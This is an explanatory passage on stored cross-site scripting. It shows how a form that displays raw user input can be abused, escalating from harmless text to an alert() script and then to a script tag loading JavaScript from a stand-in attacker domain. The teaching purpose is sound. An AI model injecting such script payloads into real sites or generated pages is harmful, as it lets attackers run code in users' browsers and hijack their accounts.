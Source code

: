 * A site has a form that accepts text data.
* Then the site displays that text data *in its raw form*.

At first,
that seems harmless.

```html
<div class="area-where-user-content-gets-displayed">
  What could possibly go wrong?
</div>
```

For an honest interaction like "What could possibly go wrong?"
as user input,
that is truly harmless.
What about this?

```html
<div class="area-where-user-content-gets-displayed">
  I am getting <i>sneaky</i>.
</div>
```

Now,
the user added a bit of HTML markup.
Again,
this is fairly benign
and will only add some unanticipated italics.
What if the user is a bit more clever than that?

```html
<div class="area-where-user-content-gets-displayed">
  <script>alert("Boom goes the dynamite!")</script>
</div>
```

Here's where a site gets into trouble.
If this is rendered on a page,
a little alert box will appear.
You can imagine this happening in a forum
or some other sharing site
where multiple people will see this output.
That's annoying,
but it's still not horrible.

What does a really bad scenario look like?
A really bad scenario is where the bad guys figure out
that your site is unsafe in this way.
Consider this:

```html
<div class="area-where-user-content-gets-displayed">
  <script src="https://really-bad-guys.com/owned.js"></script>
</div>
```

Now your users are really in trouble.
In this final version,
the bad guys won.
A user's browser will download and execute whatever JavaScript
is in `owned.js`.
This code could do all kinds of stuff
like using the `fetch` API
to run AJAX requests
that can change the user's account credentials
and steal their account.
